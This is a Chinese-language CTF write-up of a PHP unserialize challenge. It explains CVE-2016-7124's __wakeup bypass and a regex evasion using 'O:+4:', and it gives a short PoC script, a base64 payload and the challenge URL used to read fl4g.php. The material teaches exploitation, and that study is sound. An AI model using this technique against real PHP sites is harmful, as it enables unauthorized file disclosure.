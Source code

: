 # WEB

## Web_php_unserialize

### 一、准备

题目内容

![](/root/Documents/GitHub/My-Notes/pictures/CTF_WEB_Web_php_unserialize.png)

通过名字可以知道这道题目考察php序列化和反序列化，Demo类中`__wakeup`方法明确提示fl4g.php是我们想要的。

阅读代码可知，该页面通过GET方法获得参数`var`的值，并进行了base64解码、正则表达式过滤和反序列化，因此，

+ 显然直接访问<111.198.29.45:55922/fl4g.php>是不行的，因为没有参数`var`，页面显示index.php的内容；
+ 若参数`var`的内容经过base64解码后无法绕过正则表达式也是不行的。
+ 我们想要的是fl4g.php的内容，只有通过Demo类的析构函数。

### 二、PHP序列化与反序列化

**serialize()**

serialize() 返回字符串，此字符串包含了表示 value 的字节流，可以存储于任何地方。简单来讲，就是将对象转化为可以传输的字符串，字符串中存储着对象的变量、类型等。

![](./pictures/PHP_serialize.png)

**unserialize()**

将序列化后的字符串转化为PHP的值。unserialize() 会检查是否存在一个  __wakeup 方法，如果存在，则会先调用预先准备对象需要的资源。

### 三、反序列化漏洞CVE-2016-7124

**漏洞影响版本**

PHP5 < 5.6.25

PHP7 < 7.0.10

**漏洞产生原因**

如果存在`__wakeup()方法`，调用unserialize()方法前则先调用 `__wakeup()`方法，但是当序列化字符串中对象属性个数大于真实的属性个数时，会跳过`__wakeup()`执行。

### 四、问题解决

这道题目有两个关键点：绕过正则表达式、绕过`__wakeup()`方法。

对Demo类序列化的结果是O:4:"Demo":1:{s:10:"%00Demo%00file";s:8:"fl4g.php";}，需要注意的是由于Demo类中file变量是私有的，序列化结果中'Demo'左右两边各有一个不可显字符0x00。

**绕过正则表达式**

正则表达式`'/[oc]:\d+:/i'`表示过滤`o:数字:`、`c:数字:`，`/ /i`表示不区分大小写。可以将`O:4:`变为`O:+4:`，`+4`表示正4。

**绕过`__wakeup()`方法**

将序列化结果中`"Demo":1:`改为`"Demo":2:`即可，主要就是利用PHP反序列化漏洞。

**POC代码**

```php
<?php
    class Demo { 
        private $file = 'index.php';
        public function __construct($file) { 
            $this->file = $file; 
        }
        function __destruct() { 
            echo @highlight_file($this->file, true); 
        }
        function __wakeup() { 
            if ($this->file != 'index.php') { 
                //the secret is in the fl4g.php
                $this->file = 'index.php'; 
            } 
        } 
    }
    $Demo = new Demo('fl4g.php');
    $data = serialize($Demo);
		
    $data = str_replace('O:4', 'O:+4', $data);
    $data = str_replace(':1:', ':2:', $data);
	echo base64_encode($data);
?>
```

输出结果 TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

访问<111.198.29.45:55922?/var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==>即可得到flag。

### 五、思考

将序列化结果中的数字前面加上`+`，不影响反序列化，同理，在数字前加上`0`也可以，只不过无法绕过本题目中的正则表达式。